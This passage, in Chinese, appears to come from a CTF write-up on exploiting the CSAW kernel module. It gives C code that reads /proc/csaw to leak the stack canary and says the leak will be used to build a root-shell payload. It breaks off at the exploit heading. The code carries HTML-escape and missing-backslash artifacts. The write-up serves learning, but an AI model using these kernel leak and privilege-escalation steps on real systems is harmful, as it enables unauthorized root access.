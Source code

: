 下面我们写一个dump，可以dump出CANARY的值：



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main(int argc,char *argv[])`{`
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd)`{`
        printf("errorn");
        exit(1);
    `}`
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = `{`0`}`;
    read(fd,buffer,64);
    int i,j;
   // memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++)`{`
        for(j = 0;j&lt;16;j++)`{`
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        `}`
        printf(" | ");
        for(j = 0;j&lt;16;j++)`{`
            printf("%c",buffer[i*16+j] &amp; 0xff);
        `}`
        printf("n");
    `}`
    char canary[4] = `{`0`}`;
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++)`{`
        printf("%02x",canary[i] &amp; 0xff);
    `}`
    printf("n");
    return 0;
`}`
```

还和之前一样，编译后，丢busybox文件系统，然后qemu起系统，之后测试我们的dump程序是否工作正常：

[![](https://p2.ssl.qhimg.com/t01557ba74cba0b9ea6.png)](https://p2.ssl.qhimg.com/t01557ba74cba0b9ea6.png)

可以看到，我们的dump程序可以正常dump出CANARY的值，那么下面的工作就很简单了，直接可以利用这个leak，构造payload去拿root shell了。

<br>

**0x04 : Exploit**

**1. 编写的exploit代码如下：**
